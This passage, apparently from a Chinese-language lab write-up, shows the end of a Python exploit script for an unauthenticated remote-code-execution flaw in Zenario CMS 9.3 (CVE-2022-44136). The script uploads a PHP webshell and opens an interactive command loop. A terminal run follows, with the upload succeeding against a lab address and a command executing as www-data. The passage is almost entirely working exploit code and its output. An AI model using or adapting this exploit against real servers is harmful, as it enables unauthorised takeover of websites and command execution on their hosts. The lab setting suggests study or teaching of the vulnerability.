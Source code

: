 ```
            params = {'cmd': cmd}
            try:
                response = session.get(webshell_url, params=params, verify=False, timeout=10)
                # 提取由 '>>>' 和 '<<<' 包裹的命令输出
                output = response.text.split('>>>')[1].split('<<<')[0]
                print(output)
            except requests.exceptions.RequestException as e:
                print(f"[-] 命令执行失败: {e}")
            except IndexError:
                 print(f"[-] 无法从响应中提取命令输出。")
                 print(f"[-] 原始响应: {response.text}")


    except KeyboardInterrupt:
        print("\n[*] 检测到Ctrl+C，正在退出。")
    print("[*] Webshell会话已关闭。")


if __name__ == '__main__':
    print_banner()
    parser = argparse.ArgumentParser(description="Zenario CMS 9.3 RCE (CVE-2022-44136) Exploit")
    parser.add_argument("target_url", help="目标URL (例如: http://192.168.205.128:8000)")
    parser.add_argument("--instance-id", default="20", help="文件上传表单的instanceId (默认为20)")
    parser.add_argument("--filename", default="shell.php", help="上传的webshell文件名 (默认为shell.php)")
    
    if len(sys.argv) == 1:
        parser.print_help()
        sys.exit(1)
        
    args = parser.parse_args()
    
    shell_url = exploit(args.target_url, args.instance_id, args.filename)
    
    if shell_url:
        interactive_shell(shell_url)
    else:
        print("\n[-] 漏洞利用失败，未能获取Webshell。")
                                           
```

执行利用脚本：

```
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ python3 exp.py http://192.168.205.128:8000                            
============================================================
 Zenario CMS 9.3 Unauthenticated RCE Exploit (CVE-2022-44136)
============================================================
[*] 准备向 http://192.168.205.128:8000/zenario/ajax.php 上传webshell...
[*] 使用 Instance ID: 20
[*] 上传文件名: shell.php
[+] 请求已被修改，注入 'Content-Tyope' 绕过代码。
[*] 正在发送恶意请求...
[+] 服务器返回 200 OK，可能上传成功！

============================================================
[SUCCESS] Webshell上传成功!
[URL]: http://192.168.205.128:8000/private/uploads/JEk-Wwl_SpBQMaPvCw3mgBcAB1m7bw/shell.php
============================================================

[*] 启动交互式Webshell... (输入 'exit' 退出)
cmd > id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
